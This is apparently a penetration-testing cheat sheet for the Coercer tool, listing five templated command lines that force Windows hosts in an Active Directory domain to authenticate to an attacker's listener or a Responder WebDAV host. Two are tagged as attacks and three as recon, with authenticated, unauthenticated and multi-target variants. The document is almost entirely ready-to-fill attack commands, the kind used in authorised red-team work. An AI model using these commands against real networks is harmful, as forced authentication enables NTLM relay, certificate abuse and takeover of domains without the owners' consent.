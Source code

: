 # Coercer

% adcs, certificate, windows, Active directory, template

## Coercer - try each method no pause
#plateform/linux #target/remote #cat/ATTACK
```
coercer coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> -t <targetIp> --always-continue
```

## Coercer - No user, try each method no pause
#plateform/linux #target/remote #cat/ATTACK
```
coercer coerce -d '<domain>' --listener <hackerIp> -t <targetIp> --always-continue
```

## Coercer - try each method to coerce
#plateform/linux #target/remote #cat/RECON
```
coercer coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> -t <targetIp> 
```

## Coercer - Webdav
#plateform/linux #target/remote #cat/RECON
```
coercer coerce -d '<domain>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' -t <targetIp> 
```

## Coercer - List vulns many targets
#plateform/linux #target/remote #cat/RECON
```
coercer coerce -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```